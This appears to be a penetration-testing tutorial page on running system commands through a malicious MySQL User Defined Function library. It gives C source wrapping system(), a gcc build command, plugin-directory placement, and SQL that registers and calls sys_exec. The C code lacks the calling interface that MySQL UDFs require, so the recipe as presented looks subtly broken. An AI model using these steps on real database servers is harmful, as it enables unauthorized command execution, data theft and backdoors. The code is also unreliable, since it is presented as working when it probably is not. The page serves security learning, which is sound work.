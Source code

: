 ```yaml
---
title: Execute Commands via MySQL UDF Library
description: Learn to exploit MySQL User Defined Functions for command execution.
keywords:
- MySQL
- UDF Library
- command execution
- user defined functions
- security vulnerability
- sys_exec
- malicious UDF
---
```


# COMMAND - UDF Library

## Context

This article explores the technique of executing commands on a MySQL server through the use of User Defined Functions (UDF) libraries. The objective is to understand how attackers can exploit this method to execute arbitrary commands if the server is not properly secured. This topic assumes knowledge of user-defined functions and general command execution techniques.

## Theory

### User Defined Functions (UDF) in MySQL

User Defined Functions (UDFs) are custom functions that developers can add to MySQL servers to extend their features beyond what is available natively. These functions are implemented in a shared library and then linked to the MySQL server. Typically, UDFs are used to perform complex calculations or extend functionality. However, if the MySQL server is not properly configured, UDFs can be leveraged to execute arbitrary system-level commands.

#### Vulnerability Model

The security risk lies in the ability to upload and execute custom UDFs. If the attacker gains access to upload files and creates a UDF that includes malicious code, they can execute commands on the server. This vulnerability arises particularly in environments where user access control and file permissions are not stringently managed.

### Command Execution via UDF

To execute a command using a UDF, an attacker typically follows a sequence of steps:

1. **Upload a Malicious UDF Library:** The attacker compiles a shared object library containing the malicious UDF and uploads it to a location accessible by the MySQL server.

2. **Invoke the UDF:** Once the library is in place, the attacker can create a MySQL function linked to this library and invoke it to execute system commands.

## Practice

### Command Execution via UDF Library

This section explains how to execute commands on a MySQL server using a UDF library. It details the necessary steps to achieve command execution if the server's security controls are inadequate.

- First, write a C program that implements the desired system execution function. Here is a simple example of the C code (`udf.c`):

  ```c
  #include <stdlib.h>

  int sys_exec(const char *command) {
      return system(command);
  }
  ```

- Compile this code into a shared object file that can be loaded by the MySQL server:

  ```bash
  gcc -shared -o libudf.so -fPIC udf.c
  ```

- Copy or upload the compiled `libudf.so` file to a directory where MySQL can load it. Commonly, this would be a directory MySQL has write permissions to such as `/usr/lib/mysql/plugin`.

- Connect to the MySQL server and create a new UDF using the uploaded shared object:

  ```bash
  mysql -u root -p -e "CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'libudf.so';"
  ```

- You can now execute system commands via MySQL using the new UDF. For instance, to check the current user ID, you can execute:

  ```bash
  mysql -u root -p -e "SELECT sys_exec('id');"
  ```

#### Result

Executing the steps above will allow you to execute any system-level command on the MySQL server where the UDF was created. Through the UDF, attackers gain the ability to manipulate or extract data, create persistent backdoors, or further exploit the network.

## Tools

- **gcc**: A compiler to create shared object files from C source code.
- **mysql client**: Command-line tool to connect to the MySQL server and execute SQL queries.